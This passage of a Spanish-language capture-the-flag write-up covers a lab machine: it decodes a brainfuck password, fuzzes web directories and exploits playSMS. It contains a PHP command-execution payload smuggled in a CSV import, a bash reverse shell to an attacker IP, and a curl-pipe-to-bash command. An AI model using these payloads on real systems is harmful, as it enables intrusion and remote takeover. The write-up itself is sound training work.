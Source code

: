 ```
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..<
```
Otro texto esoterico, en lenguaje "brainfuck" -> idkwhatispass

Ruta /dev 
Nos da un 403, pero aun asi se puede fuzzear
```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.111:9999/dev/FUZZ
000000597:   200        1 L      1 W        5 Ch        "test"                                               
000001612:   301        7 L      13 W       194 Ch      "backup"  
```
/backup -> 
Nos da la ruta /playsms, hay un panel de registro al que ingresamos con admin:idkwhatispass.

-------------------
# Part 3: Explotando playsms

Como es una web muy amplia, buscamos vulnerabilidadades con el searchploit.
Hay varios exploits que contemplan la ruta "import.php"

Exploit php/webapps/42044.txt:

En la ruta ```http://10.10.10.111:9999/playsms/index.php?app=main&inc=feature_phonebook&route=import&op=list```
se puede subir un archivo .csv con codigo php en uno de los campos, el tema esque dice que la web lee el codigo 
pero no lo ejecuta. Lo que hace es meter el codigo en el USER AGENT 

> USER AGENT > la parte de una peticion http que corresponde al navegador con la que tramitas la peticion
> Archivo CSV > tipo de archivo de datos que guarda valores entre comas.

Para entender lo que es un CSV, la web pediria algo tal y como:
```
Name,Mobile,Email,Group code,Tags
Antonio,665665665,antonio@mariscosrecio,mayorista,no limipio pescado
```
Y el exploit seria tal que asi
```
Name,Mobile,Email,Group code,Tags
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>,22,NULL,NULL,NULL
```
![forlic2](https://user-images.githubusercontent.com/96772264/198895730-23444d3a-ed66-46ce-b917-837327ad2d3c.PNG)
![forlic3](https://user-images.githubusercontent.com/96772264/198895739-e7175968-0c5a-4922-899b-b96f77bd3a62.PNG)

La manera de ganar acceso es mediante una shell indirecta:  
Index.html:
```
#!/bin/sh
bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'
```
Comando en el user-agent (antes montando un servidor con el python) -> ```curl http://10.10.14.15:8000 | bash```
